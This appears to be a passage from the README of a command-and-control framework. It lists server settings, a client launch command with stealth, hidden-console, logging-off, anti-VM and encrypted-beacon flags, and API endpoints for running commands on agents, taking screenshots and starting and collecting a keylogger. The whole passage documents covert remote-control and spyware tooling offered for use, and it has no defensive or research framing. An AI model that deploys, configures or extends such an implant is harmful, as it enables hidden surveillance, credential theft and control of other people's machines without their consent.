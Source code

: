 ### Server Configuration
The server can be configured using environment variables or by modifying `config.py`:

- `SERVER_HOST`: Server host (default: 0.0.0.0)
- `SERVER_PORT`: Server port (default: 8000)
- `UPLOAD_DIR`: Directory for uploaded files
- `DOWNLOAD_DIR`: Directory for downloaded files
- `MAX_COMMAND_QUEUE_SIZE`: Maximum commands per agent (default: 100)
- `MAX_FILE_SIZE`: Maximum file size in bytes (default: 50MB)
- `SESSION_TIMEOUT`: Session timeout in seconds (default: 3600)
- `LOG_RETENTION_DAYS`: Days to retain logs (default: 30)

### Client Configuration
Advanced clients support numerous command-line options:

```bash
python3 advanced_client.py --server http://server:port \
  --client-id my-agent \
  --display-name "My Agent" \
  --beacon-interval 60 \
  --stealth \
  --hide-console \
  --disable-logging \
  --anti-vm \
  --encryption AES-256 \
  --encryption-key "mykey123"
```

## 🌐 API Endpoints

### Authentication (if enabled)
- `POST /api/auth/login` - Login and get JWT token

### Enhanced Agent Management
- `POST /api/agents/register` - Register a new agent with capabilities
- `GET /api/agents` - List all agents
- `GET /api/agents/{agent_id}/info` - Get comprehensive agent info
- `GET /api/agents/enhanced` - List agents with enhanced info
- `DELETE /api/agents/{agent_id}` - Remove an agent
- `POST /api/agents/{agent_id}/heartbeat` - Send heartbeat

### Command Execution
- `POST /api/commands/execute` - Execute a command on an agent
- `GET /api/commands/{agent_id}` - Get commands for an agent
- `POST /api/commands/result` - Submit command result
- `GET /api/commands/{agent_id}/results` - Get command results

### Enhanced Feature Endpoints
- `POST /api/commands/screenshot` - Queue screenshot command
- `POST /api/commands/keylogger/start` - Start keylogger
- `POST /api/commands/keylogger/stop` - Stop keylogger
- `POST /api/commands/keylogger/data` - Get keylogger data
